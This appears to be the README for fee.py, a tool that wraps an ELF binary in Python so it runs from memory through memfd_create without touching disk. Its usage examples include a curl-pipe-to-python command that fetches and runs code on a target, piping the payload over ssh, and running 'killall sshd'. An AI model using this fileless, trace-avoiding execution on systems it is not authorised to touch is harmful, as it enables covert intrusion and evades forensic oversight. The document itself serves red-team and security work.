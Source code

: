 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__IMPORTANT!__ By default, the script uses the x86-64 syscall number for `memfd_create`. This is different for targets with a different architecture (32-bit x86, ARM, ARM64, MIPS, etc).

You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest.

If you need to change the syscall number, use the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-s NUM] [-a ARGV] [-c] [-p PATH] [-z LEVEL] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            print this help message and exit
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target
                        platform (default: 319)
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied
                        to execle (default: path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for
                        piping directly into ssh
  -p PATH, --python-path PATH
                        path to python on target if '-c' is used (default:
                        '/usr/bin/env python3')
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)

```